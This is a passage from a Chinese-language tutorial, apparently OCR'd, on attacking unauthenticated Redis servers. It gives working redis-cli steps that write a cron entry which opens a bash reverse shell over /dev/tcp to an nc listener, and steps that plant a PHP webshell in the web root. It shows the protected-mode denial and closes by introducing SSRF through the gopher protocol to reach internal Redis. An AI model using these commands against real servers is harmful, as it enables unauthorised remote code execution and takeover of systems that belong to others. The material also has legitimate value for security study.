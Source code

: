 
假如报了如下错误
sign_and_send_pubkey: signing failed: agent refused operation
运行下如下两句即可
eval "$(ssh-agent -s)"
ssh-add
利用计划任务反弹shell
先开一个终端监听本地的23333端口
nc -nlvp 23333
利用之前类似的文件写入，写入定时命令
192.168.85.132:6379> set x "\n* * * * * /bin/bash -i > /dev/tcp/192.168.85.128/23333 0<&1 2>&1\n"
OK
192.168.85.132:6379> config set dir /var/spool/cron/
OK
192.168.85.132:6379> config set dbfilename root
OK
192.168.85.132:6379> save
OK
需要等待一会，一般一分钟之内吧，nc就能收到反弹回来的shell了

写入webshell
当redis权限较低，上面两种方法都行不通的时候，可以尝试往web服务中写入一句话，获取webshell
192.168.85.132:6379> set x "<?php phpinfo();?>"
OK
192.168.85.132:6379> config set dir /var/www/html
OK
192.168.85.132:6379> config set dbfilename shell.php
OK
192.168.85.132:6379> save
OK
这样，就能在根目录下生成shell.php。访问一下

结合SSRF
之前能看到，默认情况下虽然是没有密码，但是会开启protected保护模式

在这情况下，我们尝试连接一下对方redis
kingkk@ubuntu:~/test/redis$ redis-cli -h 192.168.85.132
192.168.85.132:6379> info
DENIED Redis is running in protected mode because protected mode is enabled, no bind address was specified, no authentication password is requested to clients. In this mode connections are only accepted from the loopback interface. If you want to connect from external computers to Redis you may adopt one of the following solutions: 1) Just disable protected mode sending the command 'CONFIG SET protected-mode no' from the loopback interface by connecting to Redis from the same host the server is running, however MAKE SURE Redis is not publicly accessible from internet if you do so. Use CONFIG REWRITE to make this change permanent. 2) Alternatively you can just disable the protected mode by editing the Redis configuration file, and setting the protected mode option to 'no', and then restarting the server. 3) If you started the server manually just for testing, restart it with the '--protected-mode no' option. 4) Setup a bind address or an authentication password. NOTE: You only need to do one of the above things in order for the server to start accepting connections from the outside.


可以看到保护模式拒绝了redis的远程连接，所以经常redis都是配合着ssrf这个可以伪造身份的攻击方式一起进行攻击

gopher协议
Gopher 协议是 HTTP 协议出现之前，在 Internet 上常见且常用的一个协议。当然现在 Gopher 协议已经慢慢淡出历史。 Gopher 协议可以做很多事情，特别是在 SSRF 中可以发挥很多重要的作用。利用此协议可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET、POST 请求。这无疑极大拓宽了 SSRF 的攻击面。

